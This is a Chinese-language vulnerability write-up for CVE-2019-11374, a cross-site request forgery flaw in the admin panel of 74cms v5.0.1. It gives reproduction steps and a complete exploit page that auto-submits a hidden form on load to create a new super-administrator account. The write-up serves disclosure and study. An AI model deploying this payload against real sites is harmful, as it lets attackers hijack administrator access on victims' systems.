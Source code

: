 # 74cms v5.0.1 后台跨站请求伪造漏洞 CVE-2019-11374

# 74cms v5.0.1 后台跨站请求伪造漏洞 CVE-2019-11374

## 漏洞描述

在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。

## 漏洞影响

```
74CMS v5.0.1
```

## 漏洞复现

首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包

![QQ图片20190529155123.png](images/20190529207783.png)

当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户

![QQ图片20190529155156.png](images/20190529179538.png)

利用exp如下：

```
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0dayhack.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
```



